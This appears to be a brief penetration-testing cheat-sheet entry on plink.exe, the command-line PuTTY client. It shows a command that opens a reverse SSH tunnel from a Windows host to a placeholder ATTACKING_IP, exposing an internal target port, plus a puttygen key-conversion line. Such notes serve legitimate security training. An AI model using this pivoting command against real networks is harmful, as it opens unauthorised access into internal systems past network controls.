 ## It's a windows command line version of the PuTTY SSH client.

### cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

### Convert keys with puttygen: puttygen KEY -o KEY.ppk
